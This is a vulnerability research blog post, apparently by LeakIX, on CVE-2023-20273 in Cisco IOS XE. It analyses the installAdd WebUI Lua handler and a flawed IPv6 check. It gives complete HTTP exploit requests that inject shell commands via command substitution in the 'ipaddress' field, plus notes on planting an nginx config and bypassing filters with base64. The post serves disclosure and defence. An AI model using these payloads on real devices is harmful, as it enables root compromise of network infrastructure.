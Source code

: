 +++
title = "CVE-2023-20273: IOS XE root priv escalation"
url = "2023/10/cisco-root-privesc"
description = "CVE-2023-20273: IOS XE root privilege escalation"
tags = [
    "vulnerability",
    "research",
    "LeakIX",
    "cisco",
]
date = "2023-10-31 23:20:00"
categories = [
    "vulnerability",
    "research",
    "LeakIX",
    "cisco"
]
image = "cover.png"
author = "BloodyShell"
author_link = "https://twitter.com/leak_ix"
+++

On the 28th of October the exploit for `CVE-2023-20198` was released by [SECUINFRA](https://twitter.com/SI_FalconTeam/status/1718346358950711807) after being captured on one of their honeypots.

While it enables full admin control of IOS, the question still remained about the implantation of the backdoor.


<!--more-->

**Update 2023/11/01:** [Joel Land](https://twitter.com/joel_land/status/1719708750741639539) shared with us on Twitter that a different payload
is necessary on his Catalyst 8000v running version 17.4.1a. We've added a payload for v17.

## Taking step back

Contrary to IOS, IOS XE is based on a Linux Kernel.
In the following picture `CVE-2023-20198` gets you the `IOSd` layer.

![Picture](/iosxe/iosxe.png)

We're however looking for the NGINX config which is at the `IOSd sub-system` layer.

### Looking for leads

Our first lead comes from the [Talos Intelligence blog post](https://blog.talosintelligence.com/active-exploitation-of-cisco-ios-xe-software/) mentioning the following log entry:

```
%WEBUI-6-INSTALL_OPERATION_INFO: User: username, Install Operation: ADD filename 
```

Our second lead comes from the diff made by [Horizon3](https://www.horizon3.ai/cisco-ios-xe-cve-2023-20198-theory-crafting/):
![Picture](/iosxe/diff.webp)
Image credit: Horizon3

### Bunch of Lua

After investigation for Lua endpoints in the Webui we found a candidate matching both leads:

In `/var/scripts/softwareMgmt.lua` we find the `installAdd` route:

```lua
if method == "POST" then
    local inp = {}
    local req_body = ngx.var.request_body
    if not utils.isNilOrEmptyString(req_body) then
        inp = cjson.decode(req_body)
    end
    local installParams = {}
    if not getInstallInProgress() then
        if lastTag == "installAdd" then
            validateSmuRequest(inp)
            local url, destinationFile = generateUrlAndDestination(inp)
            writeInstallOperationType(inp.operation_type)
            installParams.operation = "install_add"
            installParams.filename = destinationFile
            writeSmuInstallParams(installParams)
            local installMethod = inp.installMethod
            -- Install involved file download, which might take long, so it will run in the background.
            local command = 'CMD_SETSID ' .. smu_install_script .. ' --operation install_add --operation_type ' .. inp.operation_type .. ' --install_method ' .. installMethod .. ' --remote_path "' .. url .. '" --file_path "' .. destinationFile .. '" &'
            utils.runOSCommand(command)
            ngx.exit(ngx.HTTP_OK)
        endif
    endif
endif
```

As highlighted by Horizon3, the ipv6 validation method has been updated. It turns out we can pass an `ipaddress` as parameter to this endpoint which will end-up in the `url` variable.

Due to a bug in the validating conditions, the only requirement for our IPv6 is to contain 3 fields delimited by `:`. 

Some other validation steps in `validateSmuRequest` and `formValidate` forbids us from using characters like `"`, `'`, ect ... in our payload. 

### Command substitution to the rescue

Using command substitution allows us to bypass any form of validation.

Our final payload after creating a user and authing with `CVE-2023-20198` looks like:

```http request
POST /webui/rest/softwareMgmt/installAdd HTTP/1.1
Host: 10.0.0.1
Content-Length: 42
Cookie: Auth=<cookie from valid auth>
X-Csrf-Token: <token from /webui/rest/getDeviceCapability>

{"installMethod":"tftp","ipaddress":"1000:1000:1000: $(echo hello world > /var/www/hello.html)","operation_type":"SMU","filePath":"test","fileSystem":"flash:"}
```

or for v17

```http request
POST /webui/rest/softwareMgmt/installAdd HTTP/1.1
Host: 10.0.0.1
Content-Length: 42
Cookie: Auth=<cookie from valid auth>
X-Csrf-Token: <token from /webui/rest/getDeviceCapability>

{"mode":"tftp","ipaddress":"1000:1000:1000: $(echo hello world > /var/www/hello.html)","operation_type":"SMU","filePath":"test","fileSystem":"flash:"}
```

### Nginx config

Knowing all of this, one can therefore drop a file in `/usr/binos/conf/nginx-conf/cisco_service.conf` and restart the
webserver to apply the configuration.

`openssl base64 -d` can be used to bypass any limitation on character limitation.
